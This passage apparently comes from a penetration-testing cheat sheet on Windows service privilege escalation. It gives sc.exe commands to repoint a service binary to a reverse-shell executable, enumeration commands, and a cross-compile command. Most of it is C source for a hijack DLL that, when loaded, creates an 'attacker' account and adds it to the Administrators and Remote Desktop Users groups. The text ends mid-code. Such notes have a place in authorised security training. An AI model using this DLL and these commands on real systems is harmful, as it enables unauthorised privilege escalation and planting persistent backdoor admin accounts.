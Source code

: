 compile on kali
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

locate in the right path and restart the service
```
sc.exe stop <service name>
sc.exe start <service name>
```
#### change Service Binary Location

if the service is misconfigure you may can change the path that the services running from to your exe file like c:\\temp\\revershell.exe   
```
sc.exe config <service name> binPath= <binary path>
```
#### Service DLL Hijacking

when we have service that running an exe, using procmon we can see that he couldn't find his dll or find after several checks in another locations. we can leverage that and create custom DLL that it load first and run it

tools:
- check running process - won't work when using a network logon such as WinRM or a bind shell
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# evil-winrm
services
```

- check under which user this service is running 
```
sc.exe qc <service name>
```

- check permissions on the exe
```
icacls "<exe_path>"
Get-Acl "<exe_path>"
```

- add user as local admin script
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user attacker password123! /add");
  	    i = system ("net localgroup administrators attacker /add");
  	    i = system("powershell -Command \"Add-LocalGroupMember -Group 'Remote Desktop Users' -Member 'attacker'\"");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
```